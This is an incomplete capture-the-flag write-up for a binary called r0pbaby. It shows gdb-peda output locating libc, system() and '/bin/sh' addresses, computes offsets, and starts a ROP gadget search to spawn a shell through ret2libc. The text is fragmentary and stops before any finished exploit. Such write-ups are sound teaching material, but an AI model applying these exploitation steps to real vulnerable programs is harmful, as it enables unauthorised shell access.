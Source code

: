 libc.so.6: 0x00007FFFF7FF59B0

Step1:



Step2:
Symbol system: 0x00007FFFF7876460

target:execute system(bin/sh)

find bin/sh

gdb-peda$ find /bin/sh

Found 6 results, display max 6 items:

 [heap] : 0x555555757040 ("/bin/sh\n")
 
 [heap] : 0x555555757462 --> 0x68732f6e69622f ('/bin/sh')
 
   libc : 0x7ffff7998879 --> 0x68732f6e69622f ('/bin/sh')
   
[stack] : 0x7fffffffb787 ("/bin/sh: 0x", '0' <repeats 16 times>, "\n")

[stack] : 0x7fffffffda72 --> 0x68732f6e69622f ('/bin/sh')

[stack] : 0x7fffffffde20 --> 0x68732f6e69622f ('/bin/sh')

gdb-peda$ x/s 0x7ffff7998879

0x7ffff7998879:	"/bin/sh"


offset_for_bin_sh=0x00007FFFF7FF59B0-0x7ffff7998879


offset_for_system=0x00007FFFF7FF59B0-0x00007FFFF7876460



Step3:

Because x64 is put the position to rdi instead of passing paratmeters,

so rquires gadgets requires pop rdi to pop address to rdi


root@kali:~/Documents/CTF# ROPgadget --binary r0pbaby > log.txt

root@kali:~/Documents/CTF# cat log.txt |grep pop

